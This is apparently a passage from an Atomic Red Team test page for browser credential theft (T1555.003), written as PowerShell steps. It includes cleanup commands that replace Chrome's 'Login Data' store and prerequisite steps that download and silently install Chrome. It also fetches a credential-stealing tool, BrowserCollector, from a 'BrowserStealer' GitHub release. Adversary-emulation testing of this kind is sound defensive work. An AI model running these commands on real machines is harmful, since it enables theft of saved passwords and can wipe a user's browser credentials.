 #### Cleanup Commands:

```powershell
Remove-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads" -Destination "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\Login Data" > $null
```

#### Dependencies: Run with `powershell`!

##### Description: Google Chrome must be on the device.

##### Check Prereq Commands:

```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```

##### Description: BrowserCollector must exist in the bin directory

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/SaulBerrenson/BrowserStealer/releases/download/1.0.0.4/BrowserCollector_x64.exe" -Outfile: "PathToAtomicsFolder\T1555.003\bin\BrowserCollector.exe"
```

##### Description: Login Data file that is a copy of a chrome Login Data that contains credentials for the tool to "steal." Must exist at the specified path.

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\T1555.003\src\Login Data") {exit 0} else {exit 1}
```
